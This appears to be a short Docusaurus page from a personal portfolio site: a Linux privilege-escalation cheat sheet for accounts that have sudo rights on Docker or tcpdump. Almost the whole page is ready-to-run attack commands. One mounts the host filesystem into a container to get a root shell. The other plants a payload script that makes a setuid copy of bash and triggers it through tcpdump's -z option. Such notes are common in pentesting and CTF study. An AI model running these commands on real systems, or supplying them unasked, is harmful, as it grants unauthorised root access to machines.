

repository: jh1h1h/portfolio · page: docs/general/sudo.html · generator: docusaurus

## sudo -l
<details>
### Docker
`sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

### tcpdump
```bash
echo 'cp /bin/bash /tmp/bash && chmod +s /tmp/bash' > /tmp/payload.sh
chmod +x /tmp/payload.sh
sudo tcpdump -i lo -w /dev/null -W 1 -G 1 -z /tmp/payload.sh
/tmp/bash -p
```
</details>
